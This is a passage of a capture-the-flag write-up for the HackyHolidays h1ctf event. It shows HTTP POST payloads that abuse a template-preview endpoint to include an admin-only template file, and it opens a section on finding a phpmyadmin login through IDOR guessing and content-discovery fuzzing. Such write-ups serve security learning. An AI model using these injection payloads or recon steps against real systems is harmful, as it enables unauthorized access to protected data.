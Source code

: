 In `/hate-mail-generator/new` it is possible to preview the content of what we write (we can't create anything). 

The POST request body to preview goes as follow (we can url-decode and works anyway):

```
POST /hate-mail-generator/new/preview HTTP/1.1
Host: hackyholidays.h1ctf.com

preview_markup=Hello{{name}}+....+whatever&preview_data={"name":"Alice","email":"alice@test.com"}
```

```
HelloAlice .... whatever
```

`{{name}}` was replaced with `Alice`, which is declared in the "preview_data" value. Changing Alice for other word and repeating the request, would also cause that word  to be replaced in `{{name}}` when previewing it.

Ok what if we try to modify those values and see what happens?

```
POST /hate-mail-generator/new/preview HTTP/1.1
Host: hackyholidays.h1ctf.com
preview_markup=Hello+{{name}}+email:+{{email}}&preview_data={"name":"zonduu","email":"murphy@hacktheplanet.com"}
```

```
Hello zonduu email: murphy@hacktheplanet.com
```

Basically the logic is, what you declare in "preview_data" then you can call it in "preview_markup". So then we go back to `/hate-mail-generator/templates/ ` and get the name of the last file we have pending to see. This [endpoint](https://hackyholidays.h1ctf.com/hate-mail-generator/91d45040151b681549d82d8065d43030) was useful to know how to put the correct syntax when declaring the template.

```
POST /hate-mail-generator/new/preview HTTP/1.1
Host: hackyholidays.h1ctf.com
preview_markup={{flag}}&preview_data={"flag":"{{template:38dhs_admins_only_header.html}}"}
```

{F1121646}

-------------------------------------------------------

## Flag 8 - Github creds leak

We start this challenge in `/forum/`. We have 2 Posts that we can see and one private with the message `You need to be an admin to view these posts`.

A quick look-up throw all application and after failed attempts of IDORs like /forum/{1-200} or guessing the credentials of Grinch or Max I came across with the admin login interface https://hackyholidays.h1ctf.com/forum/phpmyadmin after a quick fuzz with the burp's content discovery wordlist.

At this point I was really stuck, because I couldn't guess the default creds of `phpmyadmin`, so I asked for a hint to a friend and he sent me a photo of the github logo...
